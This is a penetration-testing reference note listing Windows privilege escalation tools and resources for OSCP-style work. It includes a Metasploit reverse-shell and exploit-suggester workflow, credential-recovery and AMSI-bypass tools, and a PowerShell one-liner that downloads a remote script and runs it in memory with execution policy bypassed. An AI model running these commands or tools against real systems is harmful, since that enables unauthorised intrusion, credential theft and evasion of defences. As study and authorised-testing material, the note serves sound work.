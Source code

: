 # Windows Privilege Escalation Scripts And Tools

Before tooling - consider the machine Situation that you must be aware of. It is always best to understand and map out the machine for yourself and assess in the grand scheme of what objective are, is it worth escalation on this machine - see [[Windows-Privilege-Escalation-Enumeration]] and corresponding  [[Windows-Privilege-Escalation-Vectors]].

Always compile tools from source if using them in a client environment.
- [JAWS](https://github.com/411Hall/JAWS) - *"Just Another Windows (Enum) Script"*
- [LaZagne](https://github.com/AlessandroZ/LaZagne) - *"Credentials recovery project"*
- [[PowerView-Cheatsheet]]
- [PowerUp](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1) - [[PowerSploit-Helpsheet]] - *"PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."*
- [Seatbelt](https://github.com/GhostPack/Seatbelt) - *"Seatbelt is a C# project that performs a number of security oriented host-survey "safety checks" relevant from both offensive and defensive security perspectives."*
- [SessionGopher](https://github.com/Arvanaghi/SessionGopher) - *"is a PowerShell tool that uses WMI to extract saved session information for remote access tools such as WinSCP, PuTTY, SuperPuTTY, FileZilla, and Microsoft Remote Desktop. It can be run remotely or locally."*
- [SharpUp](https://github.com/GhostPack/SharpUp) - *"SharpUp is a C# port of various PowerUp functionality"*
- [Snaffer](https://github.com/SnaffCon/Snaffler) - finds readable files shares and uses ML-trained algorithm to display desirable files
- [Sysinternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) - See the [[Sysinternals]]
- [Watson](https://github.com/rasta-mouse/Watson) - *"Enumerate missing KBs and suggest exploits for useful Privilege Escalation vulnerabilities"*
- [Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng) - *"Windows Exploit Suggester - Next Generation"*
	- see [[WESNG-Helpsheet]] 
- [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) - *"Windows local Privilege Escalation Awesome Script (C#.exe and .bat)"*
	- [All checks done are on HackTricks](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation) 

Post exploitation tools are integrated into C2s and are sometime actively maintained consider copying one from one - see [[C2-Matrix]] 

[[Metasploit]] modules:
```bash
msfconsole -> use multi/handler -> set payload - >set lhost -> run
# msfvenom your tailoured shell for targeting architecture professionalism
# copy shell to Windows box and run it
# On attack box
run post/multi/recon/local_exploit_suggester
# For example 
# identify exploit/windows/local/ms16_014_wmi_recv_notif
set session [sessionnumber]
set lport [portnumber]
run
```

Scripts and tools
```powershell
https://github.com/carlospolop/PEASS-ng # Is OSCP compliant as of 2022
https://github.com/Tib3rius/windowsprivchecker
https://github.com/gladiatx0r/Powerless.git # For OSCP & Legacy Windows System
https://github.com/411Hall/JAWS	# jaws-enum.ps1 -OutputFileName Jaws-Enum.txt
https://github.com/bitsadmin/nopowershell  
https://github.com/rasta-mouse/AmsiScanBufferBypass  
https://github.com/cobbr/InsecurePowerShell  
https://github.com/BC-SECURITY/Starkiller  
https://github.com/besimorhino/powercat
```
[subinacl](https://windows-resource-kit-tools-subinacl-exe.software.informer.com/) *"enables administrators to obtain security information about files, registry keys, and services, and transfer this information from user to user, from local or global group to group, and from domain to domain."* - Stealthy and reliable.
SysInternals will always be your friend - [[Sysinternals]] or [Download here](https://docs.microsoft.com/en-us/sysinternals/downloads/)
[[Impacket-Cheatsheet]]
[[Seatbelt-Helpsheet]]

[Empire](https://github.com/BC-SECURITY/Empire) is C2 covered here: [[Empire]] and [[Starkiller]]
For [wesng](https://github.com/bitsadmin/wesng) check usage for [[WESNG-Helpsheet]]
[Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection) is a GitHub repositories that contains ..*"
Nightly builds of common C# offensive tools, fresh from their respective master branches built and released in a CDI fashion using Azure DevOps release pipelines."* 
The below will load the PowerUp script into memory of a PowerShell shell, then use [[PowerSploit-Helpsheet]], from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

```powershell
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1') 
powershell.exe -ExecutionPolicy Bypass -File .\
```

## References

[JAWS](https://github.com/411Hall/JAWS)
[LaZagne](https://github.com/AlessandroZ/LaZagne)
[PowerUp](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1)
[Seatbelt](https://github.com/GhostPack/Seatbelt)
[SessionGopher](https://github.com/Arvanaghi/SessionGopher)
[SharpUp](https://github.com/GhostPack/SharpUp)
[Snaffer](https://github.com/SnaffCon/Snaffler)
[Sysinternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) 
[Watson](https://github.com/rasta-mouse/Watson)
[Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng)
[winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) 
[HackTricks](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation
[subinacl](https://windows-resource-kit-tools-subinacl-exe.software.informer.com/) 
[Sysinternals Download here](https://docs.microsoft.com/en-us/sysinternals/downloads/)
[Empire](https://github.com/BC-SECURITY/Empire)
[wesng](https://github.com/bitsadmin/wesng)
[Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection) 
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
